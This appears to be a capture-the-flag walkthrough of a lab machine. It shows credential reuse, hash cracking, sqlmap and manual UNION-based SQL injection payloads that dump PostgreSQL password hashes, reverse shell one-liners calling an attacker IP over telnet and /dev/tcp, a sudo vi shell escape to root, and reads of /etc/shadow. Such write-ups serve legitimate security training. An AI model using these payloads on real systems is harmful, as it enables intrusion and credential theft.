 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)
* [Discoveries](#discoveries)

## Recon-Enumeration  
![alt text](./img/medicine01.PNG?raw=true)  

![alt text](./img/medicine02.PNG?raw=true)  

Let’s try to use the credentials found in the OOPSIE machine  
![alt text](./img/medicine03.PNG?raw=true)  
  
Here we can only find one zip file. Let’s get it and try to unzip  
![alt text](./img/medicine04.PNG?raw=true)  

This was too easy…..however this password can be easily cracked with John…  
![alt text](./img/medicine05.PNG?raw=true)  

Using the password we can unzip the file and get 2 other files: index.php and style.css  
Inside the index.php file we can find a username and a password hash  
![alt text](./img/medicine06.PNG?raw=true)  

This hash is easier to crack, just use [crackstation](https://crackstation.net/)  
![alt text](./img/medicine07.PNG?raw=true)  

Now we can login and access the server  

## Exploit  
![alt text](./img/medicine08.PNG?raw=true)  

Here the SEARCH param is vulnerable to sqli  
![alt text](./img/medicine09.PNG?raw=true)  
  
Here we can use SQLMAP or do the SQLi manually.  
> SQLMAP  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --dbs  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog --tables  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e -D pg_catalog -T pg_authid --dump  
![alt text](./img/medicine10.PNG?raw=true)  

> Manually  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,table_name,NULL,NULL,NULL%20from%20information_schema.tables--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,column_name,NULL,NULL,NULL%20from%20information_schema.columns%20where%20table_name=%27pg_authid%27--  
http://10.10.10.46/dashboard.php?search=elixir%27%20union%20all%20select%20NULL,rolname,rolpassword,NULL,NULL%20from%20pg_authid--  
![alt text](./img/medicine12.PNG?raw=true)  

I tried crack this hash with john and hashcat, however a quick google search could saved some time  
![alt text](./img/medicine11.PNG?raw=true)  

With this credential we can connect to port 22 of this server:  
PS: we could use the sqlmap flag --os-shell to gain a shell and after gain an upgraded reverse shell with the next commands. However i lost the connection sometimes with this method  
sqlmap -u http://10.10.10.46/dashboard.php?search=elixir --cookie PHPSESSID=qihiab8965c78chkp3u245b13e --os-shell  
Attacker box: nc -nvlp 1234  
Victim box: RHOST=10.10.16.82; RPORT=1234; TF=$(mktemp -u); mkfifo $TF && telnet $RHOST $RPORT 0<$TF | /bin/sh 1>$TF &  
Attacker box: nc -nvlp 4444  
Victim box: bash -c 'exec bash -i &>/dev/tcp/10.10.16.82/4444 <&1' &  
![alt text](./img/medicine13.PNG?raw=true)  
HABEMUS SHELL \o/

## Privesc  
![alt text](./img/medicine14.PNG?raw=true)  

Look’s like we can run the command “/bin/vi /etc/postgresql/11/main/pg_hba.conf” as sudo, so we can get root:  
sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf  
PRESS ESC KEY  
:set shell=/bin/sh  
:shell  
![alt text](./img/medicine15.PNG?raw=true)  

## Discoveries  
cd /var/lib/postgresql/.ssh  
![alt text](./img/medicine17.PNG?raw=true)  

/etc/shadow  
![alt text](./img/medicine16.PNG?raw=true)  
